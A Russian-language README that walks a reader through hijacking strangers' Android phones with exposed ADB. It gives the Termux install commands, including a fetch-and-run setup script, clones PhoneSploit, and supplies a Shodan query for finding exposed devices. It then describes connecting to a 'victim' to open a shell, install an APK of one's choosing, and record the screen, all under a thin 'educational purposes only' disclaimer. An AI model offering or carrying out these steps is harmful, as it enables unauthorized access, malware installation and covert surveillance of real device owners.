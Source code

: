### android-hack-for-ip_TERMUX

# !!!ВНИМАНИЕ!!!
### Автор данной статьи не несет отвествености за любите последствие от ёё протчение. Все материалы в исключительно образовательных целях!


Adb - это консольное приложения для компьютера, с помощью которого производится откладка андроид устройств и позволяет управлять ими.
Как известно android debug bridge прослушивается на порту 5555, поэтому мы можем получить доступ к жертве с открытым портом. Поможет нам в этом утилита под названием phonesploit. Данную утилиту можно установить в линукс, даже в виндовс практически без проблем, а вот в термукс придется постараться чуть по больше)

1.Установка

Первым делом мы обновляем пакеты термукс, и устанавливаем гит:

pkg update

pkg upgrade

pkg install git

#### Далее мы устанавливаем ADB , делается это с помощью скрипта :

apt update > /dev/null 2>&1 && apt --assume-yes install wget > /dev/null 2>&1 && wget https://github.com/MasterDevX/Termux-ADB/raw/master/InstallTools.sh -q && bash InstallTools.sh

#### Теперь мы возвращаемся в домашнюю директорию, командой:

cd 

---

#### Теперь мы приступаем к установке самого Phonesploit :

git clone https://github.com/cyberknight777/PhoneSploit

cd PhoneSploit

bash termux.sh

Отлично, мы установили данную утилиту, теперь перейдём к использованию.
2.Использование.
Первое о чём бы я хотел поговорить, так это о том где же можно взять ip адреса с такой уязвимостью? Ответ очень прост - shodan.

---

Shodan - это поисковая система, которая позволяет пользователю находить компьютеры и устройства, используя определенные фильтры. 
Первым делом там необходимо зарегистрироваться, это делается очень просто, так что сами разберетесь)
После того как вы зарегистрируетесь, вам необходимо в поиск вписать такой запрос :
android debug bridge product:”Android Debug Bridge”
Этот запрос найдет утройства имеющие такую уязвимость, как adb. 
Теперь можно перейти к нашему скрипту, для его запуска потребуются следующие команды :

cd $HOME

cd PhoneSploit 

python2 main_linux.py

Нас встречает такое меню, первым делом нам необходимо подключиться к жертве, для этого мы выбираем пункт:

[3]Connect a new phone

#### После удачного подключения, мы можем использовать любой пункт данного меню, соответствено в пределе разумного, ведь не забывайте про дисклеймер)
#### Останавливаться на каждом пункте мы не будем, ибо это у нас займет много времени, тут все предельно ясно - если перевести на русский. Обращу внимание на пункты:

 [4]. Access Shell on a phone - этот пункт позволяет открыть нам терминал shell и управлять устройством.  

[5]. Install an apk on a phone - этот пункт позволяет установить нам апк файл на устройство жертвы. (давайте поработайте фантазией)

[6,7]. Screenshot/record a phone - позволяет сделать снимок экрана, или записать короткое видео экрана. 

На этом я закончу. Еще раз хочу напомнить, что думайте о последствиях своих действий, спасибо за внимание)

###### By DeplayGo - Spike YT
###### By mishakorzhik
